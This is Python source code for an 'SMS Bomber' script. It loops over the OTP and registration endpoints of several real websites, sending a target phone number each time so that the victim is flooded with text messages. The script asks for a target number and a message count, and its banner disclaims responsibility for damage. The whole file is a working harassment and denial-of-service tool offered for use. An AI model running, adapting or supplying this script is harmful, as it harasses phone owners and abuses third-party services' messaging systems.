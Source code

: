 # sex
from urllib.request import Request,urlopen from urllib.parse import urlencode,quote_plus import platform import os import time import urllib import urllib.request import http.cookiejar  def banner():     if platform.system().lower()=="windows":         os.system("cls")     else:         os.system("clear")     print("""   /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$   /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$ | $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$ |  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/  \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$  /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$ |  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$  \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/                                                                                                                                                                                                                                         By : D3XBugg3R                                   With &lt;3 of T34M GCA                                                                                                       Note : I won't be responsible for any damage caused by this script, Use at your own risk """) #http://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile=  #https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=  #http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=  #http://www.quikr.com/SignIn?aj=1&amp;for=send_otp&amp;user=  def send(num, counter, slep):     url1 = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile="]     #url="https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile="     data={"phone":num}     x=y=0     for y in range(int(counter)):         for x in url1:             banner()             print("Target Number          : ", num)             print("Number of Message Sent : ", y+1)             result_url=str(x)+num             resp1=Request(result_url)             urlopen(resp1)             time.sleep(slep)          banner() send(input("Enter Target Number : "), input("Enter Number of Messages : "), 1)
